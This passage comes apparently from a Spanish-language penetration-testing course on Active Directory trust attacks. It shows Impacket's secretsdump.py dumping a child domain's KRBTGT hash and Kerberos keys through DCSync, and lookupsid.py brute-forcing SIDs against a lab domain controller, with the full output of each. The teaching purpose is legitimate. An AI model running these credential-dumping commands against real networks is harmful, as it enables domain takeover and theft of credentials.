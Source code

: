 Podemos también realizar el ataque mostrado en la sección anterior desde un host de ataque Linux. Para hacerlo, todavía necesitaremos recopilar la misma información:

- El hash de KRBTGT para el child domain
- El SID para el child domain
- El nombre de un usuario objetivo en el child domain (¡no necesita existir!)
- El FQDN del child domain
- El SID del grupo Enterprise Admins del root domain

Una vez que tengamos control total del child domain, `LOGISTICS.INLANEFREIGHT.LOCAL`, podemos usar `secretsdump.py` para realizar DCSync y obtener el hash NTLM para la cuenta KRBTGT.

### Performing DCSync with secretsdump.py

```r
secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9d765b482771505cbe97411065964d5f:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:d9a2d6659c2a182bc93913bbfa90ecbead94d49dad64d23996724390cb833fb8
krbtgt:aes128-cts-hmac-sha1-96:ca289e175c372cebd18083983f88c03e
krbtgt:des-cbc-md5:fee04c3d026d7538
[*] Cleaning up...
```

Luego, podemos usar [lookupsid.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/lookupsid.py) del toolkit de Impacket para realizar fuerza bruta de SID y encontrar el SID del child domain. En este comando, lo que especifiquemos para la dirección IP (la IP del domain controller en el child domain) se convertirá en el domain objetivo para una búsqueda de SID. La herramienta nos devolverá el SID para el domain y los RIDs para cada usuario y grupo que podrían usarse para crear su SID en el formato `DOMAIN_SID-RID`. Por ejemplo, del siguiente output, podemos ver que el SID del usuario `lab_adm` sería `S-1-5-21-2806153819-209893948-922872689-1001`.

### Performing SID Brute Forcing using lookupsid.py

```r
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 

Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

Password:
[*] Brute forcing SIDs at 172.16.5.240
[*] StringBinding ncacn_np:172.16.5.240[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-2806153819-209893948-922872689
500: LOGISTICS\Administrator (SidTypeUser)
501: LOGISTICS\Guest (SidTypeUser)
502: LOGISTICS\krbtgt (SidTypeUser)
512: LOGISTICS\Domain Admins (SidTypeGroup)
513: LOGISTICS\Domain Users (SidTypeGroup)
514: LOGISTICS\Domain Guests (SidTypeGroup)
515: LOGISTICS\Domain Computers (SidTypeGroup)
516: LOGISTICS\Domain Controllers (SidTypeGroup)
517: LOGISTICS\Cert Publishers (SidTypeAlias)
520: LOGISTICS\Group Policy Creator Owners (SidTypeGroup)
521: LOGISTICS\Read-only Domain Controllers (SidTypeGroup)
522: LOGISTICS\Cloneable Domain Controllers (SidTypeGroup)
525: LOGISTICS\Protected Users (SidTypeGroup)
526: LOGISTICS\Key Admins (SidTypeGroup)
553: LOGISTICS\RAS and IAS Servers (SidTypeAlias)
571: LOGISTICS\Allowed RODC Password Replication Group (SidTypeAlias)
```